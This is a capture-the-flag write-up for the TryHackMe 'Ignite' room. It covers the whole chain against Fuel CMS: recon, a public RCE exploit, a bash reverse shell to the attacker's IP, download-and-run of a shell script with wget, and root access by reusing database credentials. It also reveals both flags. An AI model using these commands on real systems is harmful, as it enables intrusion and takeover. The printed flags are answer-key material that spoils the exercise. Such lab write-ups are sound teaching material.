

# Ignite


> 🔬🌐 [Ignite](https://tryhackme.com/room/ignite)
>
> _A new start-up has a few issues with their web server._
>
> 

🎯 Target IP: `10.10.174.21`

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

* `http://10.10.174.21/`
* `http://10.10.174.21/fuel`
  * `admin`:`admin`

## Exploitation

* Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searshsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```



### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

* Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

* Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

* Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>Reveal Flag - user.txt: 🚩</summary>

`6470e394cbf6dab6a91682cc8585059b`


</details>

## Privilege Escalation

* Enumerate Fuel CMS application
  * `/var/www/html/fuel/application/config/`

```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

* Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
```

<details>

<summary>Reveal Flag - root.txt: 🚩</summary>

`b9bbcb33e11b80be759c4e844862482`


</details>

***
